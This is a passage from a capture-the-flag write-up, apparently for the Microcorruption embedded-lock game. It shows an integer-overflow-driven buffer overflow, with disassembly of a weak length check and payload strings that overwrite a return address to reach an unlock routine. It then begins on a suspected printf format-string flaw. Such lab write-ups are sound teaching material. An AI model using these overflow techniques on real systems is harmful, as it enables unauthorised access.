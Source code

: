 0x1f is 31 in decimal, but we can enter a password longer than that. And this will cause an overflow in r14. Since this controls how many chars we will get for a password afterwards, we can try to overflow the password field now!
Let's try a username of length 32, and some really long password:

```
4242424242424242424242424242424242424242424242424242424242424242
```

Yes, we can now trick `strcpy` into copying all of this beauty onto the stack! But what about the length checks?

```
45fa:  3f80 0224      sub	#0x2402, r15
45fe:  0f5b           add	r11, r15
4600:  7f90 2100      cmp.b	#0x21, r15 ; compare that lower bytes are less than 0x21
4604:  0628           jnc	$+0xe <login+0xb2>
```

This check compares only lower bytes, not upper bytes. So... what about password of length 0x0100? Then, we will add to r11, which will be `0x20`, and our check should pass.
If we will examine the return address, we will find out that our `sp` is at `0x4` offset from our password string. And the unlock interrupt address is at `461c`. Now, it's down to some simple math to overflow the return address. 

Let's whisper our incantations now, and unlock the door:

```
# username
python -c 'print("42"*32)' | pbcopy  

# password
python -c 'print("424242421c46" + "42" * (0x100 - 0x6))' | pbcopy 
```

## Addis Ababa
Since `printf` is used here, it's possibly vulernable to https://owasp.org/www-community/attacks/Format_string_attack.

Useful readup on why they work: https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

```
4476:  814f 0000      mov	r15, 0x0(sp)
447a:  0b12           push	r11
447c:  b012 c845      call	#0x45c8 <printf>
```
Looks like format string is not being used here! It's interesting how we test for unlock here:
```
4472:  b012 b044      call	#0x44b0 <test_password_valid>
4476:  814f 0000      mov	r15, 0x0(sp)
...
448a:  8193 0000      tst	0x0(sp)
448e:  0324           jz	$+0x8 <main+0x5e>
4490:  b012 da44      call	#0x44da <unlock_door>
```
